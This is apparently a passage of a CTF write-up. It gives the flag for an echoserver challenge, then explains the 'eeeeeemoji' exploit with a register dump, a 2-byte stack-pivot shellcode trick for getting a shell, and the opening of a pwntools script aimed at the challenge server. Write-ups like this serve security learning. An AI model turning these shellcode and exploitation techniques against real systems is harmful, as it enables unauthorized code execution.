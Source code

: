 ```python
```
`flag{do_you_like_my_simple_echoserver_f1b960576af79d28}`

### eeeeeemoji
* The challenge input 🍺 will use mmap to randomly generate space with rwx permissions.
* Input 🐴, we can control mmap+0 ~ mmap+0x100 bytes, and mmap+0x200 2 bytes, then execute mmap+0x200 address.

Execute shellcode registers status
```
RAX: 0xdeadbeefdeadbeef
RBX: 0xdeadbeefdeadbeef
RCX: 0xdeadbeefdeadbeef
RDX: 0x238200 --> 0x9090909090900041
RSI: 0xdeadbeefdeadbeef
RDI: 0xdeadbeefdeadbeef
RBP: 0xdeadbeefdeadbeef
RSP: 0x7fffffff6160 ('A' <repeats 200 times>...)
RIP: 0x238200 --> 0x9090909090900041
R8 : 0xdeadbeefdeadbeef
R9 : 0xdeadbeefdeadbeef
R10: 0xdeadbeefdeadbeef
R11: 0xdeadbeefdeadbeef
R12: 0xdeadbeefdeadbeef
R13: 0xdeadbeefdeadbeef
R14: 0xdeadbeefdeadbeef
R15: 0xdeadbeefdeadbeef
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
```

* 2-byte Shellcode setting "and esp, edx".

0x7fffffff6160 & 0x238200 = 0x230000 
mmap+0x230 code = add rsp,0x8000
add 0x230000,0x8000 = 0x238000
* Probability changes rsp to mmap-0x8000, and controls the register to execute mmap+0 ~ mmap+0x100 shellcode to get the shell.
```python3=
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = 'pwnable.org'
port = 31323

binary = "./eeeeeemoji"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")


if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})

else:
  r = remote(host ,port)

```